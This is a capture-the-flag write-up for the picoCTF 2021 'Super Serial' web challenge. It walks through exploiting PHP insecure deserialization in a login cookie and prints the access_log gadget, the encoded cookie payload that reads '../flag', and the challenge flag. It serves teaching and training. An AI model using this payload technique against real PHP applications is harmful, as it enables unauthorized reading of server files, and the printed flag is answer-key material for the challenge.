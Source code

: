 # Super Serial

## Information

- picoCTF 2021
- Web Exploitation
- 100 Points

## Description

Try to recover the flag stored on this website http://mercury.picoctf.net:8404/

## Hints

1. The flag is at ../flag

## Solution

The webpage we are trying to find the flag on is a sign in page.

![Initial Landing Page](images/where-are-the-robots-landing.PNG)

We need to perform some recoinassaince by accessing the `robots.txt` file, which gives us the following.

```
User-agent: *
Disallow: /admin.phps
```

Going to `/admin.php` does not yield anything. However, we now know that `.phps` files do exist. We can go to `index.phps` which gives us the following PHP code and from there we can find `cookie.phps` and `authentication.phps`. Full PHP code for all three files can be found [here](/web-exploitation/super-serial/php/).

Analysing the code, we can see that a `permissions` object is created.

```php
$perm_res = new permissions($username, $password);
```

After logging in, `perm_res` is cached as a cookie byserialisaing it.

```php
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
```

Next time, when the user visits the website, the value is directly read from the cache.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

This is a problem because, we can edit the cookie to provide a different serialized object and the server would unserialize it for us when it catches an error.

We could instantiate an `access_log` object with `../flag` which sets `$this->log_file = "../flag"`.

```php
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}
?>
```

This object would then be feed into the server via cookies and the server will try to check whether the user is a guest or an admin:

```php
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
$g = $perm->is_guest();
$a = $perm->is_admin();
```

When checking if the user is an admin, this is where an exception will be thrown and caught by:

```php
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```

The code prints an error message and appends the object to it, causing `access_log.__toString()` to be called.

```php
function __toString() {
	return $this->read_log();
}
```

Which will then call `read_log()`:

```php
function read_log() {
	return file_get_contents($this->log_file);
}
```

Which should give us the flag.

To perform this, we need to create a new cookie with the value being `../flag`. This has to be serialized, Base64 encoded and then URL encoded in that order.

To serialise `../flag`, we need to run this code:

```php
echo(urlencode(base64_encode(serialize((new access_log("../flag"))))));
```

Which outputs:

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Create a new cookie and use this string as the value. Go to http://mercury.picoctf.net:8404/authentication.php and you should see a deserialization error message with the flag.

![flag](images/flag.PNG)

## Flag

picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_66832978}
